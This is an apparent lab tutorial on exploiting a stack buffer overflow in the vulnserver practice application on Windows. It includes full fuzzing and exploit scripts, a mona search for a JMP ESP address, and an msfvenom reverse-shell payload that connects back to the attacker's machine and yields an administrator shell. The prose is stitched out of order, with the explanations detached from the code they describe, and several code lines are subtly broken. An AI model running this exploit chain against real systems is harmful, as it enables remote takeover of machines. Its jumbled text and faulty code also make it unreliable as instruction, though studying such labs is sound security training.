

Notes - Windows Buffer Overflows
A buffer overflow is a type of software vulnerability that occurs when a program attempts to write more data to a buffer, which is a temporary storage area in a computer's memory, than it can actually hold.This can cause the extra data to overflow into adjacent memory locations, potentially overwriting important data and causing the program to crash or behave in unexpected ways.In some cases, this can even allow an attacker to execute malicious code or take control of the affected system.
Buffer overflows can occur in a variety of programs, including web applications, operating systems, and network services.They are often caused by programming errors such as using unsafe functions, not validating input properly, or not checking the size of input data before writing it to a buffer.
To prevent buffer overflows, developers can use safe programming practices such as bounds checking, input validation, and secure coding practices like using memory-safe languages.Additionally, system administrators can use intrusion detection systems and firewalls to detect and block malicious traffic that attempts to exploit buffer overflow vulnerabilities.
Interesting. The application accepts input after most of the valid commands.
We will take a look at the STATS and the TRUN commands only, but in a real test, we would look at all of the commands.
It is advisable to write spike scripts for them.
Let's do this now!
stats.spk:
trun.spk:
Let's try to send a bunch of A characters to the specified input fields with generic_send_tcp and the spike scripts.
Make sure Immunity Debugger is showing the Running state and the application is not crashed before executing the commands!
The application and Immunity Debugger must be restarted every time and the application must be reattached every time and the application must be "Running" (not "Paused") before making a step AND after putting one or more files to one of Immunity Debugger's folder to ensure this!
With the stats.spk script, we did not achive a crash whatsoever.
Maybe we will have more luck with another spike script.
Excellent!The Immunity Debugger shows that the application has been Paused and down left we can see there is an Access violation message.
On the Registers view we can see that the EIP register's value has been overwritten to 41414141.
41 stands for A in hex code so the EIP has been overwritten with four A characters.
We see a bunch of A characters as the EAX register's value and we see a /.:/ sign before the A characters.
This will be importtant in the Fuzzing part.
First step is done.
Remember the /.:/ part as the EAX register's value? We put it after the TRUN command so the application understands the remaining input.
Let's execute the script, wait for a little and cancel the execution if it doesn't stop without cancelling!
It looks like ther fuzzing crashed at 2700 bytes. Unfortunately, it doesn't necessarily mean that the offset is at 2700 bytes.
Let's find the offset now!
After executing this script, we can see in Immunity Debugger that the EIP register's value changed to 386F4337.
Solution for step number three: the offset is at the 2003rd byte.
We don't need to issue the chmod command if we just modify a script that is already executable but I will issue the chmod command anyway.
In Immunity Debugger, we can see that - for example - the EBP register's value changed to 41414141 but the EIP register's value is not 41414141 now but 42424242.
42 is hex code for B.
We have just successfully overwritten the EIP register!
Do not put \x00 as the part of the badchars int the script as it can cause problems.
It is the ESP register's value that we have to follow in dump to find bad characters.
In Immunity Debugger, right click on the ESP register's value and select "Follow in Dump".
We cannot see any anomaly in the Hey dump view, which means the \x00 character is the only bad character.
We have successfully found all bad characters.
Let's see an example of another application's hex dump.

If we see this, the B0 character itself is not a bad character.
Furthermore, if we see B0 characters next to each other, only the first one from the left marks the place of a bad character.
On the picture, the places where the bad characters can be found are marked with a red quadrilateral.
The JMP ESP assembly instruction's op code equivalent is FFE4.
In Immunity Debugger, we issue the following command in the bottom barand press Enter:
!mona find -s "\xff\xe4" -m essfunc.dll
Among other things, we see the following:
[*] Results:
0x625011af
[...]
0x62501205
We need the very first address, which is 0x625011af.
The 32 bit architecture for an operating system is little endian ==> we have to provide the result for the shellcode not just in hex format, but in reverse order!
Let's do this now!
Let's minimize and maximize the Immunity Debugger in a way that we can see the default views.
In Immunity Debugger, we have to click on the bluish black button on the upper bar, also known as the "Enter expression to follow" button.
We have to enter the first address as expression without the 0x part.
Enter 625011af and press OK.
After that, we should find FFE4 JMP ESP.
We have to set a breakpoint here. Press F2 to do this.
By doing this, we achieve an overflow, the program "fills up", waiting for further instructions.
Let's execute our script and see what's up (of course, make sure now too that the application is running and is not in "Paused" state).
In Immunity Debugger on the bottom part we see that "Breakpoint at essfunc.625011af".
625011af is exactly the EIP register's value now which means the essfunc.dll is indeed a right module.
Done. Let's try getting a shell.
Immunity Debugger is not necessary, but the vulnserver must be running.
On another tab on the Kali machine:
Looking back to the tab with netcat running, we see that we got a shell!
~Thank you for reading~
Anatomy of the Memory
A typical computer's processor with Intel x86 architecture has a memory anatomy which looks like the following. The kernel section is located at the top of the memory. The stack section - which is the most interesting for buffer overflows - is located under the kernel section. The heap section is located under the stack section. The data section is located undert the heap section. Finally, the text section is located under the data section. The stack section and the heap section are large compared to the other sections. The heap section - if it is not the same size as the stack section - is the largest.Anatomy of the Stack
A typical computer's processor with Intel x86 architecture has a stack anatomy which looks like the following. The ESP (Extended Stack Pointer) register is located at the top of the stack. Under ESP is the Buffer Space where we can store our input. Finally there is the EBP (Extended Base Pointer) register which is at the bottom of the stack, under the EBP register. Reaching the end of the stack there is the EIP (Extendid Instruction Pointer) register. Controlling the EIP register by being able the write to it can lead to buffer overflow vulnerability if the place for the shellcode is/can be large enough.Steps of Buffer Overflow
1. SpikingSearching for a vulnerable partof the program2. Fuzzing
We send a bunch of characters forthe program and seeif we can crash it3. Finding the Offset
If we can crash it, we search forat what point we can crash it(this point is called the offset)4. Overwriting EIP
We utilize the Offsetto overwrite the EIP5. Finding Bad Characters 6. Finding the Right Module 7. Generating Shellcode 8. Root!
1. Spiking
In this entry, the environment where we test looks like the following. We have an attacker machine running Kali Linux (the tools to be utilized are found on Parrot OS too) and a machine running the most recent version of Windows with 32 bit architecture. The Kali Linux has an IP address of 192.168.20.131 and the Windows machine has an IP address of 192.168.1.90, both machines are on the 192.168.0.0/16 subnet, and can communicate with each other. For the purpose of this entry, the Windows machine runs vulnserver, a server that we can use to learn about buffer overflows. The Windows machine also has Immunity Debugger downloaded. Fortunately, Windows Defender and other antivirus solutions picks vulnserver.exe up and they block it. Let's assume that Windows Defender and other antivirus solutions are turned off on the Windows machine. First things first, we start vulnserver.exe application with administrative privileges. We do the same with Immunity Debugger. In Immunity Debugger, we click File --> Attach and search for the vulnserver process. We click on the vulnserver process and click on the Attach button. If something has been attached to Immunity Debugger, it gets paused. The run it, we do not need to search for the Run button. It could be more convenient to press F9 and it will resume the application from the Paused state. The vulnserver application listens on port 9999 by default. The Windows machine's IP address is 192.168.1.90. Let's set up a netcat listener so we can examine how this application works.# nc -nv 192.168.1.90 9999
Welcome
HELP
Valid Commands:
STATS [...]
[...]
TRUN [...]
[...]
EXIT
EXIT
GOODBYE
s_readline();
s_string("STATS ");
s_string(" ");
s_readline();
s_string("TRUN ");
s_string(" ");
# generic_send_tcp 192.168.1.90 9999 stats.spk 0 0
# generic_send_tcp 192.168.1.90 9999 trun.spk 0 0
2. Fuzzing
We can crash the application and we know what input field we can utilize to achive the crash of the application. Let's determine the place in memory where the crash happens. We can do it easily with a script. Let's make and execute the script now!
# gedit 1.py
#!/usr/bin/pythonimport sys, socketfrom time import sleepbuffer = "A" * 100while True: try: s = socket.socket(socket.AF_INET,socket.SOCK_STREAM) s = connect(('192.168.1.90', 9999)) s.send(('TRUN /.:/' + buffer, 9999)) s.close() sleep(1) buffer = buffer + "A" * 100 except: print("Fuzzing crashed at %s bytes" % str(len())) sys.exit()
# chmod +x 1.py
# ./1.py^CFuzzing crashed at 2700 bytes3. Finding the Offset
ceil(2700) = ? = 3000.
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000Aa0[...]*copy*
# gedit 2.py
#!/usr/bin/pythonimport sys, socketoffset = "Aa0[...]"try: s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect(('192.168.1.90', 9999)) s.send(('TRUN /.:/' + offset)) s.close()except: print("Error connecting to server") sys.exit()
# chmod +x 2.py
# ./2.py
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337[*] Exact match at offset 20034. Overwriting the EIP
# gedit 2.py
#!/usr/bin/pythonimport sys, socketshellcode = "A" * 2003 + "B" * 4try: s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect(('192.168.1.90', 9999)) s.send(('TRUN /.:/' + shellcode)) s.close()except: print("Error connecting to server") sys.exit()
# chmod +x 2.py
# ./2.py5. Finding Bad Characters
When we generate/write shellcode, we must know what characters are good for the shellcode and what characters are not good for the shellcode. To find bad characters, we can run all the hex characters through the application and see if any of then act up. By default, the null byte (/x00) character acts up, so we don't worry about it and remember that the /x00 is a bad character. Let's go to https://github.com/cytopia/badchars page and copy the badchars = ( "\x01\[...]") stuff under Python.
# gedit 2.py
#!/usr/bin/pythonimport sys, socketbadchars = ("\x01\[...]")shellcode = "A" * 2003 + "B" * 4 + badcharstry: s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect(('192.168.1.90', 9999)) s.send(('TRUN /.:/' + shellcode)) s.close()except: print("Error connecting to server") sys.exit()
# chmod +x 2.py
# ./2.py6. Finding the Right Module
A right module is a DLL or something similar that does not have memory protection ( such as DEP, ASLR, SSDH, etc.). Download mona.py to the Windows machine from here: https://github.com/corelan/mona. Put in mona.py here: C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands Let's use the mona script in Immunity Debugger. Write the following and press Enter in the bottom line. !mona modules Among other things, we see the following: False | False | False | False | False | [...]\essfunc.dll The essfunc.dll does not have any memory protections so it will be a right module for our purposes. We need the op code equivalent to the JMP ESP assembly instruction to make the application's execution jump to a place where it waits for other commands, leading to Remote Code Execution (RCE).
# locate nasm_shell[...]/usr/[...]/nasm_shell.rb
# /usr/[...]/nasm_shell.rb
nasm> JMP ESP00000000 FFE4 jmp esp
nasm> exit
# gedit 2.py
#!/usr/bin/pythonimport sys, socketshellcode = "A" * 2003 + "\xaf\x11\x50\x62"try: s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect(('192.168.1.90', 9999)) s.send(('TRUN /.:/' + shellcode)) s.close()except: print("Error connecting to server") sys.exit()
# chmod +x 2.py
# ./2.py7. Generating Shellcode
The shellcode must contain a non-staged payload as we are goind to utilize it while listening with netcat. The netcat tool can only listen to non-staged payloads, it is essentially deef when it comes to staged payloads as it can only hear the stages separate to each other. Let's generate a non-staged payload with msfvenom. Note that by setting the EXITFUNC to thread, the exploit will be more stable. The -f is the file type switch, the -a is the architecture switch, the -b is the bad characters switch.
# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.131 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"[...]Payload size: 351 bytes[...]"\xbe[...]\x58" *copy without the semicolon*;
# gedit 2.py
#!/usr/bin/pythonimport sys, socketoverflow = ("\xbe\[...]\x58")shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow# 2003 bytes, this will take to EIP# when we reach EIP, we give the address of the jump,# we jump to the instruction series with this# ("\x90" * 32 + overflow),
# the "\x90" * 32 will be the knobs.# The knobs are the padding between the jump address and the overflow,# this makes the exploit more stabletry: s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect(('192.168.1.90', 9999)) s.send(('TRUN /.:/' + shellcode)) s.close()except: print("Error connecting to server") sys.exit()8. Root!
# nc -lvnp 4444
# chmod +x 2.py
# .2.py
# nc -lvnp 4444C:\[...]> whoamiwhoamiCOMPUTER\ADMINISTRATORC:\[...]\>